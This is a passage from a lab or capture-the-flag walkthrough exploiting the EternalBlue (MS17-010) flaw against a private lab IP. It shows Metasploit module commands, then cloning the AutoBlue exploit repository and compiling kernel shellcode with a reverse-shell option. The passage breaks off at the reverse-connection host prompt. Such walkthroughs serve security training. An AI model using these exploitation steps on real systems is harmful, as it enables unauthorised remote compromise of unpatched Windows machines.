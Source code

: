 **Exploit:**

```bash
search eternalblue

use 1

set RHOSTS 192.168.179.128

options

run
```

![](/assets/img/blue/2022-05-16 16_07_54-Window.png)

![](/assets/img/blue/2022-05-16 16_09_02-Window.png)

***

### 2. Manual exploitation using an Exploit Code from Github

**Github repo used:** `https://github.com/3ndG4me/AutoBlue-MS17-010`

**Walkthrough:**
``` bash
cd opt/

git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git

cd AutoBlue-MS17-010

pip install -r requirements.txt

cd shellcode/

./shell_prep.sh
```

```bash
┌──(kali㉿kali)-[~/Desktop/pentest/blue/AutoBlue-MS17-010]
└─$ pip install -r requirements.txt 
Defaulting to user installation because normal site-packages is not writeable
Requirement already satisfied: impacket in /usr/lib/python3/dist-packages (from -r requirements.txt (line 1)) (0.9.24)
                                                                                                                                                
┌──(kali㉿kali)-[~/Desktop/pentest/blue/AutoBlue-MS17-010]
└─$ cd shellcode        
                                                                                                                                                
┌──(kali㉿kali)-[~/…/pentest/blue/AutoBlue-MS17-010/shellcode]
└─$ ./shell_prep.sh 
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Lets compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
```